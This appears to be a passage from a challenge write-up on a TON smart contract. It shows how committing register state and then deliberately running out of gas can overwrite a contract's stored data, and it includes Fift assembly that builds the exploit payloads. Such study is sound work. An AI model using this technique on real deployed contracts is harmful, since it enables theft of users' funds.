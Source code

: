 `out of gas` exception can not be caught by `CATCH`. At the same time `COMMIT` does the following:
> Commits the current state of registers c4 ("persistent data") and c5 ("actions") so that the current execution is considered "successful" with the saved values even if an exception is thrown later.

Combining: we can set registers to the desired state, then *commit*, and then run out of gas.
Straightforward way to steal money is to send a message to ourselves. Alternatively, it is possible to rewrite test vectors to one with a known preimage as below:



```fift
"Asm.fif" include
<{
    //  _0
    DROP	// 
    x{} PUSHSLICE	//  _1
    SHA256U	//  _2
    NEWC	//  _2 _3
    256 STU	//  _5
    ENDC	//  _6
    c4 POP
    COMMIT
    0 PUSHINT	//  _9=0
    SETGASLIMIT
    x{} PUSHSLICE	//  _11
}>c

<b swap ref, b>
2 boc+>B "dehasher.boc" B>file


<{
    DROP	// 
    x{} PUSHSLICE	//  _1
}>c

<b swap ref, b>
2 boc+>B "dehasher2.boc" B>file
```
